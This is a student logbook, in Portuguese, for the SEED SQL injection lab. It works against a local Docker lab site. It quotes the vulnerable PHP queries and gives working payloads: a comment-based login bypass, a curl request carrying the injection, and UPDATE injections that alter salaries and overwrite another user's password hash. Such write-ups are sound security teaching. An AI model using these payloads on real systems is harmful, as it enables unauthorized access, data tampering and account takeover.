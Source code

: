 # SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

* Depois de configurarmos o ambiente de desenvolvimento, corremos o comando *dockps* que nos indicou os IDs dos containers que foram `ac3ed20667e0 mysql-10.9.0.6` e `303b990b452e www-10.9.0.5`

* De seguida, corremos o comando *docksh ac3* para entrar no container do mysql

* Na shell do container corremos o comando *mysql -u root -pdess* para interagir com a base de dados

* Após o ponto anterior, corremos *use sqllab_users;* para consultar a base de dados e *show tables;* para ver as tabelas presentes na base de dados, neste caso a tabela *credential*

* Para imprimir a informação de perfil da Alice, fizemos *select * from credential where Name='Alice';* e obtivemos o seguinte resultado:

![ALice](images/logbook8-task1.png)

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

* Ao abrimos o url *www.seed-server.com* deparamo-nos com a página de login e tentamos fazer login com o username do *Admin*

* Analisando o código php, verificamos que podíamos realizar um ataque de *SQL Injection* 

```php
    $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password

    FROM credential

    WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

* Assim, tentamos criar um ataque onde no campo do username escrevemos `Admin' -- `, de maneira a comentar a verificação da palavra passe na *query sql* e fizemos *Login*

* Deste modo, tivemos acesso à informação de todos os utilizadores

![Information](images/logbook8-task2-1.png)

### Task 2.2: SQL Injection Attack from command line

* Após uma tentativa falhada de Login, percebemos no *url* do site que o *login* era feito com recurso ao método *GET*

* Assim, com o comando *curl* conseguimos fazer um ataque de *SQL Injection* colocando o username do Admin desta forma: `Admin' -- `e assim conseguimos obter a informação de todos os utilizadores outra vez


```bash
curl http://www.seed-server.com/unsafe_home.php?username=Admin%27+--+&Password= 
```

![Information2](images/logbook8-task2-2.png)

### Task 2.3: Append a new SQL statement

* Analisando o código, verificamos que só é possível realizar uma *query* de cada vez porque a função de php usada é a *mysqli::query* 

* Assim, isto não permite que o atacante coloque um *;* no fim da primeira *query* para executar uma segunda *query*

* Se a função php fosse do tipo *msqli::multiquery* já seria possível realizar mais que uma *query* e assim realizar operações de *insert*, *delete* e *update*

![QueryError](images/logbook8-queryerror.png)

```php
if (!$result = $conn->query($sql))
```

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

* Para modifiar o salário da Alice colocamos o username `Alice' -- ` e entramos no seu perfil

* De seguida, usando a query abaixo, alteramos o seu salário, colocando no campo nickname  ```Alice', salary='50000 ```, fazendo com que o valor do salário passasse como uma string, tendo em conta que não existe diferenciação de tipos em sql

```sql
    $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"
```

![Salary](images/logbook8-task3-1.png)

### Task 3.2: Modify other people’ salary

* Para modificar o salário do Boby, usando o perfil da Alice e a mesma query do ponto anterior, colocamos no campo nickname ``` ', salary=1 where name='Boby' -- ```, que nos permitiu alterar o salário do Boby para 1 sem alterar o seu nickname

![Salary2](images/logbook8-task3-2.png)

### Task 3.3: Modify other people’ password

* Como pertendiamos modificar a palavra passe do Boby para *password* e sabiamos que a função de *hash* usanda era *SHA 1*, verificamos que o *hash* da palavra passe *password* era *5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8*

* Usamos o perfil da Alice e a query do ponto anterior, colocamos no campo nickname ``` ', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' where name='Boby' -- ```, que nos permitiu alterar a palavra passe do Boby para *password* sem alterar o seu nickname

* Tendo em conta as imagens abaixo, com a palavra passe *password* conseguimos fazer login com o username *Boby* e aceder ao seu perfil

![Perfil](images/logbook8-task3-3-1.png)
![Password](images/logbook8-task3-3-2.png)